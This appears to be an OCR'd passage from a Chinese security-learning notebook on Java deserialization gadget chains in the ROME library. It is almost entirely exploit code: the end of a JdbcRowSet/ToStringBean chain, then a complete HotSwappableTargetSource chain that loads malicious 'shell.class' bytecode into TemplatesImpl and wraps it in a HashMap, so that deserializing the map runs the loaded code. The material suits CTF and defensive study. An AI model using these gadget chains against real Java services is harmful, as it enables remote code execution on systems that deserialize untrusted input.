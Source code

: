 ```bash
        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,jdbcRowset);
//        serialize(hashMap);
        unserialize("ser.bin");
}

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(HotSwappableTargetSource):

这条是 spring 原生的 toString 利用链，后续在研究，调用链如下

```bash
* HashMap.readObject
* HashMap.putVal
* HotSwappableTargetSource.equals
* XString.equals
* ToStringBean.toString
public class ROME_HotSwappableTargetSource {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesimpl = new TemplatesImpl();

        byte[] bytecodes = Files.readAllBytes(Paths.get("D:\\CTF\\Security_Learning\\ROME\\target\\classes\\shell.class"));

        setValue(templatesimpl,"_name","aaa");
        setValue(templatesimpl,"_bytecodes",new byte[][] {bytecodes});
        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(TemplatesImpl.class,templatesimpl);
        toStringBean.toString();

        HotSwappableTargetSource h1 = new HotSwappableTargetSource(toStringBean);
        HotSwappableTargetSource h2 = new HotSwappableTargetSource(new XString("xxx"));

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(h1,h1);
        hashMap.put(h2,h2);

        Serial.Serialize(hashMap);
        Serial.DeSerialize("ser.bin");
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

}
```
